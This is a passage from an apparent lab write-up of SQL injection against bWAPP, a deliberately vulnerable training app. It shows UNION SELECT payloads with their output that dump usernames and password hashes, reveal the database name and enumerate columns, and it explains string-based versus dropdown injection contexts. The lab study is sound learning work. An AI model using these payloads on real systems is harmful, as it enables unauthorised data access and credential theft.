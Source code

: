 ### 7. Retrieve Usernames and Passwords
**Payload:**
```
UNION SELECT 1,2,3,4,group_concat(login,password),6 from users --
```
**Output:**
```
A.I.M.6885858486f31043e5839c735d99457f045affd0,bee6885858486f31043e5839c735d99457f045affd0
```
**Explanation:**
This retrieves and concatenates all usernames and their associated hashed passwords from the `users` table.


# GET/SELECT 

## Difference Between Search and Select Inputs in SQL Injection

SQL injection techniques can vary based on how the input is handled by the web application. The main difference is in the type of input used:

1. **Search Input (String-Based Input)**
   - When a search field accepts user input as a string, the input is typically enclosed in quotes within the SQL query.
   - To perform SQL injection, it's necessary to break out of the string by closing the quote before injecting the payload.
   - Commenting out the remaining part of the query is also required to prevent syntax errors.
   - Example: 
    ```sql
   	SELECT * FROM movies WHERE title = '$user_input'
   	```

2. **Select Input (Dropdown-Based Input)**
   - When using a dropdown menu, the user selects from predefined options, and the input is usually processed as a direct value without quotes.
   - SQL injection in this case doesn't require breaking out of a string since the input is not enclosed in quotes.
   - There is also no need to comment out the rest of the query, since it's structured differently from string-based inputs.
   - Example:
   ```sql
   SELECT * FROM movies WHERE genre = $user_input
   ```

## Add the following injections after movie=0 and before &action=go

**Payload:**
```
union select 1,2,3,4,5,6
```
```output
	2 	3 	5 	4 	Link
```
**Payload:**
```
union select 1,2,3,database(),5,6
```
```output
2 	3 	5 	bwapp 	Link
```
**Payload:**
```
UNION SELECT 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='movies' 
```